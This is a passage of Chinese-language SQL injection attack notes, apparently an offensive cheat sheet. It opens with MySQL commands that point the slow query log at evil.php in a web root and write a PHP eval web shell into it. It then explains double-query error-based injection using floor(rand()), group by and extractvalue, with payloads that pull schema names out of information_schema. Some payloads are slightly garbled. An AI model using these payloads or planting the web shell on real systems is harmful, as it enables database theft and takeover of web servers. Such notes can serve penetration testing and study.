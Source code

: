         set global slow_query_log_file='D:/phpStudy/WWW/evil.php;    #修改日志文件存储的绝对路径
        
        '<?php @eval($_POST[1]);?>' or sleep(11);		#写入shell
        
        show global variables like '%long_query_time%'; #使用慢查询日志时，只有当查询时间超过系统时间(默认为10秒)时才会记录在日志中，使用如下语句可查看系统时间
        ```

    - 

### 双查询报错注入(一次最多爆出32位字符)

SQL语句中有语法错误，根据返回的错误信息，可以察觉到一些数据库信息。
**适用场景**：**没有数据回显，条件正确与否结果一样，sleep没区别，但是错误信息会打印出来**
**利用方式**:     利用语法错误，把value在前端输出

- 部分不允许有语法错误的函数

    ```sql
    updatexml()、
    geometrycollection()、
    multipoint()、
    polygon()、multipolygon()、linestring()、multilinestring()、exp()
    ```

- 原理

    ```sql
    select count(*),floor(rand(0)*2) as a  from table group by a
    
    #Group by 数据里面如果是表达式列名 将会再次执行表达式,
    #Count(*)函数与group by函数同时用时，会建立一个虚拟表，取原表第一条数据进行计算，如果这时候键值不存在（也就是之前group by没有分行过的） 就会插入一条数据进入虚拟表 这时候键值为group by 后面所带的数据 ，然后取原表第二条数据，如果键值存在，则 count加1 不插入新键值， 如果键值不存在则插入新键值。那么问题来了如果 group by 后是表达式列名，当键值不存在插入时，可能会发生插入数据键值是group by后第二次执行表达式的键值 ，当第二次插入时数据键值不存在，进行插入新键值 ，但group by 后第二次执行表达式的键值却存在，这时候会出错（根据数据库完整性 不可能同时出现两个相同键值）。例如第一次floor为0，group by a 为1，键值为1，第二次 floor 0，group by a 1，因为0不是键值，所以会插入 a 1，但1已经存在所以会报错。数据是先查询后插入到虚拟表的。
    ```

    ```sql
    #count(*)占一列,想爆出的数据在concat里面构造(使用select语句)，concat里面包含floor(rand())，然后concat as a，from指向对应表,必须from一个表。
    #因为会报语法错误，所以可以和之前order by n 一样。知道sql语句列数
    
    select count(*),concat(floor(rand(0)*2),'~',database())as a from information_schema.schemata group by a
    
    select 1,count(*),concat(floor(rand(0)*2),'~',(select schema_name from information_schema.schemata limit 4,1))as a from information_schema.schemata group by a %23
    ```

- 其他双注入

    ```sql
    extractvalue(xml_frag,xpath_expr)
    # extractvalue()接受两个字符串参数，一个xml标记xml_frag的片段和一个xpath表达式xpath_expr(也称为定位符)。这个函数返回第一个文本节点的文本 也可用作报错注入。 返回结果 限制在32位字符。
    id=1' and and extractvalue(1,concat(0x5e24,(select id from users limit 0,1)))-
    